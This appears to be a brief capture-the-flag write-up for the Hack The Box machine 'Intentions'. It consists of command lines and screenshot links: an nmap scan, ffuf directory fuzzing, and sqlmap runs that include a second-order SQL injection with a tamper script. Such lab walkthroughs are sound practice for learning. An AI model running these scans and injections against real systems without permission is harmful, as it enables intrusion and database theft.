 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)

![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)

![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)

![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)
